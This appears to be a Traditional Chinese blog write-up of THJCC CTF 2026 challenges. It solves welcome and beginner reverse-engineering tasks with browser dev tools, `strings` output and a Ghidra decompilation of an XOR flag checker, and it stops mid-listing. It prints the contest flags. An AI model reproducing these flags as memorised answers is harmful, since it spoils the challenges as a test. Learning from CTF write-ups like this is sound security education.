# 前言
## CTF簡介
簡單來說，CTF是一種尋寶活動，出題者會把旗子(Flag)藏在容易受攻擊的程序和網站中。參賽者須要想辦法透過各種方式找到旗子就贏了！
 
:::Note
Flag 旗子：通常會是 ```PGCTF{Y0u_F0und_7h15_Fl@5}``` 這種格式的文字，也有可能會拆開來藏在任何地方或用各種加密的方式藏起來。
:::

## CTF會接觸到哪些東西呢？
其實很多，各種你想得到的都有可能，如果你對資訊（特別是資訊安全）有興趣的話，一定要挑戰看看CTF，這會讓你很快的增加你的資訊知識！

## 要怎麼練習CTF呢？
CTF 練習的管道我自己是用 picoCTF 來練習啦，就是多做題目，查查資料這樣。

還有CTF真的很吃你的見識淺薄，所以CTF不外乎就是練習，要不就是去接觸更廣的知識。

::link{url="https://picoctf.org/" text="picoCTF官方網站"}


## THJCC 是什麼？
THJCC CTF 是一場**專為臺灣高中生舉辦的線上資安競賽**，由 SCINT 北臺灣學生資訊社群、全國志同道合的學生共同主辦，並獲得多個資安組織與單位支持。比賽採 **Jeopardy 題型**，題目涵蓋 Web、Reverse、Crypto、Pwn 與 Misc，兼顧入門學習與進階挑戰。賽事宗旨在於**推廣資訊安全教育，培養高中生對資安技術的興趣與實作能力**。在比賽時更有可能獲得**獎金**、**獎狀**等獎勵，讓選手在競賽過程中增加應對未來比賽的信心。

THJCC CTF 不僅是競爭舞台，更是學習與交流的平台。

> [!NOTE] 
> 以上介紹文字來自於 [THJCC 官方網站](https://thjcc.org/)。

---

# 題目筆記
> 好廢話說完了，就直接講一下我做題目的心得筆記吧！

## Welcome
### [Welcome to THJCC CTF](https://ctf2026.thjcc.org/challenges#Welcome%20to%20THJCC%20CTF-3) (10)

#### 題目：
In this CTF, unless otherwise specified, the flag format is THJCC{.*}
> Author: Frank

Hint: 
:spoiler[Just F12 and Search]

#### 解題心得：
這題其實都是老朋友了，這題的那個圖片會瘋狂跳動，根本沒辦法看清，所以如果想要看清楚的話，你只要使用開發者模式(F12)，然後找到網頁對應元素就可以成功找到文本內容了！
```html
<span class="chaos-text" data-text="THJCC{We1c0m3-tO-tHjcC-c7F_2O26}">
    ::before
    THJCC{We1c0m3-tO-tHjcC-c7F_2O26}
    ::after
</span>
```

#### Flag:
```THJCC{We1c0m3-tO-tHjcC-c7F_2O26}```

### [Feedback Form !](https://ctf2026.thjcc.org/challenges#Feedback%20Form%20!-44) (10)

#### 題目：
https://forms.gle/QaVkpitdq9LgTSUk7

#### 解題心得：
這題就是很簡單的填寫表單，啊我那個時候沒有搶到第一QwQ，反正就填表單就可以拿到Flag了！


#### Flag:
```THJCC{Thanks_\O/_L0vU}```

## Reverse
### [Super baby reverse](https://ctf2026.thjcc.org/challenges#Super%20baby%20reverse-4) (100)

#### 題目：
My first C lang project can you find the hidden message inside?
> Author: Lemontea

:::Tip[Download Flie]
[THJCC_Super_Baby_Reverse](https://file.pg72.tw/share/Xp27hK6k)
:::

#### 解題心得：
這題的檔案在不知道的情況下，我們直接在Linux 中先找檔案類型：
```bash
pg72@PGpenguin72:~/Downloads$ file THJCC_Super_Baby_Reverse
THJCC_Super_Baby_Reverse: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=643efc950df55d8188e8eeac2c0f5f1781f62a35, for GNU/Linux 4.4.0, not stripped
```
我們可以發現這個檔案類型是```Linux ELF 64-bit```的格式，所以我們就直接嘗試提取他的所有文字：
```bash collapse={2-18, 23-78}
pg72@PGpenguin72:~/Downloads$ strings THJCC_Super_Baby_Reverse
*5/lib64/ld-linux-x86-64.so.2
puts
__stack_chk_fail
__isoc23_scanf
__libc_start_main
__cxa_finalize
strcmp
libc.so.6
GLIBC_2.38
GLIBC_2.4
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u3UH
THJCC{BaH
BY_r3v3rH
s3_f0r_bH
eggin3r}H
%254s
Correct
Wrong
;*3$"
GCC: (GNU) 15.2.1 20251112
main.c
_DYNAMIC
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_start_main@GLIBC_2.34
_ITM_deregisterTMCloneTable
puts@GLIBC_2.2.5
_edata
_fini
__stack_chk_fail@GLIBC_2.4
__isoc23_scanf@GLIBC_2.38
__data_start
strcmp@GLIBC_2.2.5
__gmon_start__
__dso_handle
_IO_stdin_used
_end
__bss_start
main
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@GLIBC_2.2.5
_init
.symtab
.strtab
.shstrtab
.note.gnu.property
.note.gnu.build-id
.interp
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.note.ABI-tag
.init_array
.fini_array
.dynamic
.got
.got.plt
.data
.bss
.comment
```
我們可以發現，上面19-22行有一串很SUS的文字（就是Flag），於是我們就很開心的會直接上傳了 ```THJCC{BaHBY_r3v3rHs3_f0r_bHeggin3r}```......  
然後你會發現你錯了==  
因為在x86-64 架構下，系統在存字串的時候會把每八位元切割後放一個空白佔位符"H"，所以當我們把那些佔位符刪除後提交，你會發現你過了！

#### Flag:
```THJCC{BaBY_r3v3rs3_f0r_beggin3r}```

### [Fllllllag_ch3cker_again?](https://ctf2026.thjcc.org/challenges#Fllllllag_ch3cker_again?-25) (100)

#### 題目：
Flag chekcer again?????????
> Author: Lemontea

:::Tip[Download Flie]
[chal](https://file.pg72.tw/share/htQ4ig0A)
:::

#### 解題心得：
這題跟上題很像，而且還是同個作者，反正就直接file+strings找內容：

```bash collapse={4-90, 93-248}
pg72@PGpenguin72:~/Downloads$ file chal
chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ea4ad0bf1d4644b0983b528a245a6ad728accef4, for GNU/Linux 4.4.0, not stripped
pgpenguin72@PGpenguin72:~/Downloads$ strings chal
/lib64/ld-linux-x86-64.so.2
leKF
__gmon_start__
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
_ZSt20__throw_length_errorPKc
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE7_M_dataEPc
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE11_M_capacityEm
_ZdlPvm
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC2EPKcmRKS3_
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_M_constructIPKcEEvT_S8_St20forward_iterator_tag
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE10_M_destroyEm
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE9_M_lengthEm
_ZSt3cin
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED2Ev
_ZSt17__throw_bad_allocv
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_Alloc_hiderC2EPcRKS3_
_ZSt21ios_base_library_initv
__gxx_personality_v0
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE16_M_get_allocatorEv
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE11_M_is_localEv
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcmRKS3_
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE4dataEv
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_Alloc_hiderC1EPcOS3_
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE7_M_dataEv
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC2Ev
_Znwm
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_Alloc_hiderC2EPcOS3_
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE7_S_copyEPcPKcm
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE9_M_createERmm
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE13_M_set_lengthEm
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE16_M_get_allocatorEv
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE11_S_allocateERS3_m
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE8max_sizeEv
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE10_M_disposeEv
_ZSt4cout
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE4sizeEv
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE13_M_local_dataEv
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE13_M_local_dataEv
_ZStrsIcSt11char_traitsIcESaIcEERSt13basic_istreamIT_T0_ES7_RNSt7__cxx1112basic_stringIS4_S5_T1_EE
_ZSt19__throw_logic_errorPKc
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_Alloc_hiderC1EPcRKS3_
_Unwind_Resume
__stack_chk_fail
__libc_start_main
__cxa_finalize
memcmp
memcpy
libstdc++.so.6
libm.so.6
libgcc_s.so.1
libc.so.6
GCC_3.0
GLIBC_2.4
GLIBC_2.14
GLIBC_2.34
GLIBC_2.2.5
CXXABI_1.3
GLIBCXX_3.4.32
GLIBCXX_3.4.21
CXXABI_1.3.9
GLIBCXX_3.4
PTE1
u3UH
[G@-
]84p)
84p)
7UCH
,Xa"H
Th1s_1s_H
_th3_k3yH
ATSH
[A\]
ATSH
0[A\]
Please Enter the flag: 
You are wrong
basic_string: construction from null is not valid
vector::reserve
vector::_M_realloc_append
basic_string::_M_create
;*3$"
zPLR
	V#{
GCC: (GNU) 15.2.1 20250813
main.cpp
__GNU_EH_FRAME_HDR
_DYNAMIC
_GLOBAL_OFFSET_TABLE_
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE10_M_disposeEv
_ZNSt11char_traitsIcE2ltERKcS2_
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1Ev
_ZNSt6vectorIhSaIhEE9push_backERKh
_ZNSt15__new_allocatorIcED1Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC2Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_Alloc_hiderC2EPcOS3_
_ZNSt6vectorIhSaIhEE12_Guard_allocD2Ev
_edata
_ZNSt6vectorIhSaIhEED2Ev
_IO_stdin_used
_ZSt17__throw_bad_allocv@GLIBCXX_3.4
_ZNSt12_Vector_baseIhSaIhEEC1Ev
_ZNSt6vectorIhSaIhEEC2Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_M_constructIPKcEEvT_S8_St20forward_iterator_tag
__cxa_finalize@GLIBC_2.2.5
_ZSteqIcSt11char_traitsIcESaIcEEbRKNSt7__cxx1112basic_stringIT_T0_T1_EESA_
memcmp@GLIBC_2.2.5
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE9_M_createERmm
_ZNSt6vectorIhSaIhEE7reserveEm
_ZNSt6vectorIhSaIhEE12_Guard_allocD1Ev
_ZNSt15__new_allocatorIcE10deallocateEPcm
main
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE13_M_set_lengthEm
_ZSt20__throw_length_errorPKc@GLIBCXX_3.4
__dso_handle
_ZZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_M_constructIPKcEEvT_S8_St20forward_iterator_tagEN6_GuardD2Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE7_S_copyEPcPKcm
_ZZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_M_constructIPKcEEvT_S8_St20forward_iterator_tagEN6_GuardC1EPS4_
_ZNSt15__new_allocatorIhE8allocateEmPKv
_ZNSt12_Vector_baseIhSaIhEE19_M_get_Tp_allocatorEv
_ZNSt12_Vector_baseIhSaIhEEC2Ev
DW.ref.__gxx_personality_v0
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE4dataEv
_ZNSt6vectorIhSaIhEEC1Ev
_ZSt19__throw_logic_errorPKc@GLIBCXX_3.4
_fini
__libc_start_main@GLIBC_2.34
_ZSt3minImERKT_S2_S2_
_ZZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_M_constructIPKcEEvT_S8_St20forward_iterator_tagEN6_GuardC2EPS4_
_ZNSt6vectorIhSaIhEED1Ev
_ZNSt15__new_allocatorIcE8allocateEmPKv
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE8max_sizeEv
_ZNSt12_Vector_baseIhSaIhEE12_Vector_implD1Ev
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE4sizeEv
_ZNSt15__new_allocatorIhED1Ev
memcpy@GLIBC_2.14
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE11_M_capacityEm
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_Alloc_hiderD1Ev
_ZNKSt6vectorIhSaIhEE11_M_data_ptrIhEEPT_S4_
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE13_M_local_dataEv
_ZNKSt6vectorIhSaIhEE12_M_check_lenEmPKc
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@GLIBCXX_3.4
_Znwm@GLIBCXX_3.4
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_Alloc_hiderC2EPcRKS3_
_ZdlPvm@CXXABI_1.3.9
_ZNKSt6vectorIhSaIhEE8max_sizeEv
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_Alloc_hiderD2Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE16_M_get_allocatorEv
_ZNSt11char_traitsIcE6assignERcRKc
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED2Ev
__stack_chk_fail@GLIBC_2.4
_init
_ZNSt12_Vector_baseIhSaIhEE17_Vector_impl_dataC1Ev
__TMC_END__
_ZNSt12_Vector_baseIhSaIhEE11_M_allocateEm
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE11_M_is_localEv
_ZNSt12_Vector_baseIhSaIhEE12_Vector_implD2Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcmRKS3_
_ZNSt6vectorIhSaIhEE12_Guard_allocC1EPhmRSt12_Vector_baseIhS0_E
_ZNSt15__new_allocatorIhED2Ev
_ZStrsIcSt11char_traitsIcESaIcEERSt13basic_istreamIT_T0_ES7_RNSt7__cxx1112basic_stringIS4_S5_T1_EE@GLIBCXX_3.4.21
_ZSt4cout@GLIBCXX_3.4
_ZSt14__relocate_a_1IhhENSt9enable_ifIXsrSt24__is_bitwise_relocatableIT_vE5valueEPS2_E4typeES4_S4_S4_RSaIT0_E
_ZNSt6vectorIhSaIhEE11_S_max_sizeERKS0_
_ZSt8_DestroyIPhEvT_S1_
_ZSt3maxImERKT_S2_S2_
_ZNSt12_Vector_baseIhSaIhEE13_M_deallocateEPhm
__data_start
_ZNSt12_Vector_baseIhSaIhEE12_Vector_implC1Ev
_end
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE13_S_copy_charsIPKcEEvPcT_S9_
_ZSt12__relocate_aIPhS0_SaIhEET0_T_S3_S2_RT1_
_ZNSt6vectorIhSaIhEE4dataEv
_ZNSt15__new_allocatorIcED2Ev
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE7_M_dataEv
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE10_M_destroyEm
_ZNSt12_Vector_baseIhSaIhEE12_Vector_implC2Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev
_ZNKSt12_Vector_baseIhSaIhEE19_M_get_Tp_allocatorEv
_ZNSt11char_traitsIcE7compareEPKcS2_m
_ZNSt19__ptr_traits_ptr_toIPccLb0EE10pointer_toERc
__bss_start
_ZSt21ios_base_library_initv@GLIBCXX_3.4.32
_ZNSt12_Vector_baseIhSaIhEED2Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC2EPKcmRKS3_
_ZnwmPv
_ZNKSt6vectorIhSaIhEE4sizeEv
_ZNKSt6vectorIhSaIhEE8capacityEv
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE9_M_lengthEm
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE11_S_allocateERS3_m
__gxx_personality_v0@CXXABI_1.3
_ZNSt19__ptr_traits_ptr_toIPKcS0_Lb0EE10pointer_toERS0_
_ZNSt15__new_allocatorIhE10deallocateEPhm
_ZNSt6vectorIhSaIhEE12_Guard_allocC2EPhmRSt12_Vector_baseIhS0_E
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE13_M_local_dataEv
_ZNSt6vectorIhSaIhEE17_M_realloc_appendIJRKhEEEvDpOT_
_ZNSt12_Vector_baseIhSaIhEE17_Vector_impl_dataC2Ev
_ZNSt6vectorIhSaIhEE5beginEv
_ITM_deregisterTMCloneTable
_Unwind_Resume@GCC_3.0
_ZNSt6vectorIhSaIhEE3endEv
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE16_M_get_allocatorEv
_ZNSt6vectorIhSaIhEE11_S_relocateEPhS2_S2_RS0_
_ZSt3cin@GLIBCXX_3.4
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_Alloc_hiderC1EPcOS3_
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_Alloc_hiderC1EPcRKS3_
__gmon_start__
_ZdlPvS_
_ITM_registerTMCloneTable
_ZNSt12_Vector_baseIhSaIhEED1Ev
_ZNSt11char_traitsIcE4copyEPcPKcm
_ZZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE12_M_constructIPKcEEvT_S8_St20forward_iterator_tagEN6_GuardD1Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE7_M_dataEPc
.symtab
.strtab
.shstrtab
.note.gnu.property
.note.gnu.build-id
.interp
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.gcc_except_table
.note.ABI-tag
.init_array
.fini_array
.dynamic
.got
.got.plt
.data
.bss
.comment
```
我們可以發現這個檔案類型也是```Linux ELF 64-bit```的格式，然後裡面有一個cpp檔案欸！  
所以我們就直接把它進行逆向工程，使用 https://dogbolt.org/ ，選`Ghidra`然後上傳`chal`給他逆向:

這是他輸出的結果：
```cpp collapse={1-232, 293-1603}
#include "out.h"


undefined main;
char DAT_001062b8;
pointer __dso_handle;
undefined1[272] cout;
undefined1[280] cin;

int _init(EVP_PKEY_CTX *ctx)

{
  int iVar1;
  
  iVar1 = __gmon_start__();
  return iVar1;
}


void FUN_00102020(void)

{
  (*(code *)(undefined *)0x0)();
  return;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

void std::__throw_bad_alloc(void)

{
  __throw_bad_alloc();
  return;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

int memcmp(void *__s1,void *__s2,size_t __n)

{
  int iVar1;
  
  iVar1 = memcmp(__s1,__s2,__n);
  return iVar1;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

void std::__throw_length_error(char *param_1)

{
  __throw_length_error(param_1);
  return;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

void std::__throw_logic_error(char *param_1)

{
  __throw_logic_error(param_1);
  return;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

void * memcpy(void *__dest,void *__src,size_t __n)

{
  void *pvVar1;
  
  pvVar1 = memcpy(__dest,__src,__n);
  return pvVar1;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

ostream * std::operator<<(ostream *param_1,char *param_2)

{
  ostream *poVar1;
  
  poVar1 = operator<<(param_1,param_2);
  return poVar1;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

void * operator_new(ulong param_1)

{
  void *pvVar1;
  
  pvVar1 = operator_new(param_1);
  return pvVar1;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

void operator_delete(void *param_1,ulong param_2)

{
  operator_delete(param_1,param_2);
  return;
}


void __stack_chk_fail(void)

{
                    // WARNING: Subroutine does not return
  __stack_chk_fail();
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

istream * std::operator>>(istream *param_1,string *param_2)

{
  istream *piVar1;
  
  piVar1 = operator>>(param_1,param_2);
  return piVar1;
}


void _Unwind_Resume(void)

{
                    // WARNING: Subroutine does not return
  _Unwind_Resume();
}


void processEntry _start(undefined8 param_1,undefined8 param_2)

{
  undefined1 auStack_8 [8];
  
  __libc_start_main(main,param_2,&stack0x00000008,0,0,param_1,auStack_8);
  do {
                    // WARNING: Do nothing block with infinite loop
  } while( true );
}


// WARNING: Removing unreachable block (ram,0x00102123)
// WARNING: Removing unreachable block (ram,0x0010212f)

void FUN_00102110(void)

{
  return;
}


// WARNING: Removing unreachable block (ram,0x00102164)
// WARNING: Removing unreachable block (ram,0x00102170)

void FUN_00102140(void)

{
  return;
}


void _FINI_0(void)

{
  if (DAT_001062b8 != '\0') {
    return;
  }
  __cxa_finalize(__dso_handle);
  FUN_00102110();
  DAT_001062b8 = 1;
  return;
}


void _INIT_0(void)

{
  FUN_00102140();
  return;
}


undefined8 main(void)

{
  bool bVar1;
  ulong uVar2;
  char *pcVar3;
  long in_FS_OFFSET;
  allocator local_e9;
  ulong local_e8;
  undefined8 local_e0;
  undefined8 local_d8;
  allocator *local_d0;
  vector<unsigned_char,std::allocator<unsigned_char>> local_c8 [32];
  string local_a8 [32];
  string local_88 [33];
  byte local_67 [71];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_67[0xf] = 0;
  local_67[0x10] = 0x20;
  local_67[0x11] = 0x7b;
  local_67[0x12] = 0x30;
  local_67[0x13] = 0x1c;
  local_67[0x14] = 0x4a;
  local_67[0x15] = 0x32;
  local_67[0x16] = 0;
  local_67[0x17] = 0x27;
  local_67[0x18] = 1;
  local_67[0x19] = 0x5e;
  local_67[0x1a] = 0x2f;
  local_67[0x1b] = 7;
  local_67[0x1c] = 0;
  local_67[0x1d] = 0x26;
  local_67[0x1e] = 6;
  local_67[0x1f] = 0x5b;
  local_67[0x20] = 0x47;
  local_67[0x21] = 0x40;
  local_67[0x22] = 0x2d;
  local_67[0x23] = 2;
  local_67[0x24] = 0x2c;
  local_67[0x25] = 0x2a;
  local_67[0x26] = 7;
  local_67[0x27] = 1;
  local_67[0x28] = 0x5d;
  local_67[0x29] = 0x38;
  local_67[0x2a] = 0x34;
  local_67[0x2b] = 0x70;
  local_67[0x2c] = 0x29;
  local_67[0x2d] = 4;
  local_67[0x2e] = 0x37;
  local_67[0x2f] = 0x55;
  local_67[0x30] = 0x43;
  local_67[0x31] = 0x36;
  local_67[0x32] = 0x5f;
  local_67[0x33] = 0x14;
  local_67[0x34] = 0;
  local_67[0x35] = 0x2c;
  local_67[0x36] = 0x58;
  local_67[0x37] = 0x61;
  local_67[0x38] = 0x22;
  local_e0 = 0x2a;
  local_67[0] = 0x54;
  local_67[1] = 0x68;
  local_67[2] = 0x31;
  local_67[3] = 0x73;
  local_67[4] = 0x5f;
  local_67[5] = 0x31;
  local_67[6] = 0x73;
  local_67[7] = 0x5f;
  local_67[8] = 0x74;
  local_67[9] = 0x68;
  local_67[10] = 0x33;
  local_67[0xb] = 0x5f;
  local_67[0xc] = 0x6b;
  local_67[0xd] = 0x33;
  local_67[0xe] = 0x79;
  local_d8 = 0xf;
  std::vector<unsigned_char,std::allocator<unsigned_char>>::vector(local_c8);
                    // try { // try from 00102298 to 0010230e has its CatchHandler @ 00102486
  std::vector<unsigned_char,std::allocator<unsigned_char>>::reserve(local_c8,0x2a);
  for (local_e8 = 0; local_e8 < 0x2a; local_e8 = local_e8 + 1) {
    local_e9 = (allocator)(local_67[local_e8 % 0xf] ^ local_67[local_e8 + 0xf]);
    std::vector<unsigned_char,std::allocator<unsigned_char>>::push_back(local_c8,(uchar *)&local_e9)
    ;
  }
  local_d0 = &local_e9;
  uVar2 = std::vector<unsigned_char,std::allocator<unsigned_char>>::size(local_c8);
  pcVar3 = (char *)std::vector<unsigned_char,std::allocator<unsigned_char>>::data(local_c8);
                    // try { // try from 0010236c to 00102370 has its CatchHandler @ 0010244c
  std::__cxx11::string::string(local_a8,pcVar3,uVar2,&local_e9);
  std::__new_allocator<char>::~__new_allocator((__new_allocator<char> *)&local_e9);
                    // try { // try from 00102395 to 00102399 has its CatchHandler @ 00102472
  std::operator<<((ostream *)std::cout,"Please Enter the flag: ");
  std::__cxx11::string::string(local_88);
                    // try { // try from 001023b7 to 00102409 has its CatchHandler @ 00102461
  std::operator>>((istream *)std::cin,local_88);
  bVar1 = std::operator==(local_88,local_a8);
  if (bVar1) {
    std::operator<<((ostream *)std::cout,"Yes\n");
  }
  else {
    std::operator<<((ostream *)std::cout,"You are wrong\n");
  }
  std::__cxx11::string::~string(local_88);
  std::__cxx11::string::~string(local_a8);
  std::vector<unsigned_char,std::allocator<unsigned_char>>::~vector(local_c8);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return 0;
}


// operator new(unsigned long, void*)

void * operator_new(ulong param_1,void *param_2)

{
  return param_2;
}


// operator delete(void*, void*)

void operator_delete(void *param_1,void *param_2)

{
  return;
}


// std::char_traits<char>::assign(char&, char const&)

void std::char_traits<char>::assign(char *param_1,char *param_2)

{
  *param_1 = *param_2;
  return;
}


// std::char_traits<char>::lt(char const&, char const&)

bool std::char_traits<char>::lt(char *param_1,char *param_2)

{
  return (byte)*param_1 < (byte)*param_2;
}


// WARNING: Removing unreachable block (ram,0x00102550)
// WARNING: Removing unreachable block (ram,0x001025b7)
// WARNING: Removing unreachable block (ram,0x0010255a)
// WARNING: Removing unreachable block (ram,0x0010257f)
// WARNING: Removing unreachable block (ram,0x00102586)
// WARNING: Removing unreachable block (ram,0x001025ab)
// WARNING: Removing unreachable block (ram,0x001025b2)
// WARNING: Removing unreachable block (ram,0x001025c1)
// std::char_traits<char>::compare(char const*, char const*, unsigned long)

int std::char_traits<char>::compare(char *param_1,char *param_2,ulong param_3)

{
  int iVar1;
  
  if (param_3 == 0) {
    iVar1 = 0;
  }
  else {
    iVar1 = memcmp(param_1,param_2,param_3);
  }
  return iVar1;
}


// std::char_traits<char>::copy(char*, char const*, unsigned long)

char * std::char_traits<char>::copy(char *param_1,char *param_2,ulong param_3)

{
  if (param_3 != 0) {
    param_1 = memcpy(param_1,param_2,param_3);
  }
  return param_1;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked
// unsigned long const& std::min<unsigned long>(unsigned long const&, unsigned long const&)

ulong * std::min<unsigned_long>(ulong *param_1,ulong *param_2)

{
  if (*param_2 < *param_1) {
    param_1 = param_2;
  }
  return param_1;
}


// std::_Vector_base<unsigned char, std::allocator<unsigned char> >::_Vector_impl::~_Vector_impl()

void __thiscall
std::_Vector_base<unsigned_char,std::allocator<unsigned_char>>::_Vector_impl::~_Vector_impl
          (_Vector_impl *this)

{
  __new_allocator<unsigned_char>::~__new_allocator((__new_allocator<unsigned_char> *)this);
  return;
}


// std::_Vector_base<unsigned char, std::allocator<unsigned char> >::_Vector_base()

void __thiscall
std::_Vector_base<unsigned_char,std::allocator<unsigned_char>>::_Vector_base
          (_Vector_base<unsigned_char,std::allocator<unsigned_char>> *this)

{
  _Vector_impl::_Vector_impl((_Vector_impl *)this);
  return;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::vector()

void __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::vector
          (vector<unsigned_char,std::allocator<unsigned_char>> *this)

{
  _Vector_base<unsigned_char,std::allocator<unsigned_char>>::_Vector_base
            ((_Vector_base<unsigned_char,std::allocator<unsigned_char>> *)this);
  return;
}


// std::__cxx11::string::_Alloc_hider::~_Alloc_hider()

void __thiscall std::__cxx11::string::_Alloc_hider::~_Alloc_hider(_Alloc_hider *this)

{
  __new_allocator<char>::~__new_allocator((__new_allocator<char> *)this);
  return;
}


// std::__cxx11::string::string()

void __thiscall std::__cxx11::string::string(string *this)

{
  char *pcVar1;
  long in_FS_OFFSET;
  allocator local_31;
  string *local_30;
  allocator *local_28;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_28 = &local_31;
  pcVar1 = (char *)_M_local_data(this);
  _Alloc_hider::_Alloc_hider((_Alloc_hider *)this,pcVar1,&local_31);
  __new_allocator<char>::~__new_allocator((__new_allocator<char> *)&local_31);
  local_30 = this;
  _M_set_length(this,0);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
}


// std::__cxx11::string::~string()

void __thiscall std::__cxx11::string::~string(string *this)

{
  _M_dispose(this);
  _Alloc_hider::~_Alloc_hider((_Alloc_hider *)this);
  return;
}


// std::__cxx11::string::string(char const*, unsigned long, std::allocator<char> const&)

void __thiscall
